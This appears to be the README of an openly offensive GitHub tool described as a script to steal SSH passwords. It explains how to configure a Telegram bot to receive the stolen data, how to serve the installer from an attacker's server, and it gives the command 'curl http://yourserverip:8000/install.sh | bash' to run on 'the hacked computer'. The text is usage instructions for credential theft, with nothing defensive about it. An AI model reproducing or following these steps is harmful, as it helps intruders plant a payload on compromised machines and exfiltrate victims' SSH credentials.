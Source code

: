 Script to steal passwords from ssh.
#Autor : Amadou Traore
# Configuration
<pre>
Edit the script on install.sh, and add your telegram bot api, and your userid.
Call the @botfather on telegram to create a bot and call the @userinfobot to get your user id.
</pre>

# Usage
<pre>
On your server execute.
python -m SimpleHTTPServer

On the hacked computer execute.
curl http://yourserverip:8000/install.sh | bash
</pre>

